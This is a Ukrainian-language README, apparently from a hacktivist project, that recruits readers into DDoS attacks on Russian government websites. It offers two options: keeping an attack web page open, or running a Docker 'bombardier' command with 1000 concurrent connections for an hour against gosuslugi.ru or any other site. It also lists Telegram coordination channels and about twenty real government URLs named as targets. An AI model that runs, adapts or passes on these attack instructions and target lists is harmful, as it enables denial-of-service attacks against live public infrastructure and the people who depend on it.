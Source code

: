 # Варіант 1
Просто відкрийте і залиште сайт відкритим (**можна і на телефоні**) - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
За можливості увімкніть VPN
# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [ProtonVPN](https://protonvpn.com/download) - трохи повільний, безкоштовний
- [Windscribe](https://windscribe.com/download) - 10 Гб безкоштовно
3. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт)  
**Ви можете відкрити декілька вікон терміналу**
## Канали для координації
- https://t.me/+97Y45he5lOI2ZTky
- https://t.me/ddosRussians
- https://t.me/itguildukraine
## Ресурси для атаки (оновлюється)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

